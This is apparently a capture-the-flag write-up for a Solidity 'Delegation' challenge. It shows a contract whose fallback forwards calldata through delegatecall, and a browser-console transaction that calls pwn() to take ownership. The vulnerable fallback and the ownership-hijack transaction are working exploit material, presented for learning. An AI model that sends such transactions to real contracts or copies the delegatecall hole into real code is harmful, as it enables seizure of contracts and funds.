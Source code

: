 # Delegation Attack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}

```

### task

The challenge goal is to take ownership of the contract

### solution

This is a typical case of **delegatecall** vulnerability, we can simply execute the **pwn()** function, through the delegatecall of
the fallback function. All we need to do is set the data in msg.data to function signature, with 64 zeros padding to indicate no argument

### steps

```javascript
// in your browser console
// the 64 zeros padding is necessary

sendTransaction({
    from:your_address,
    to:contract_address,
    data:"0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
})

```
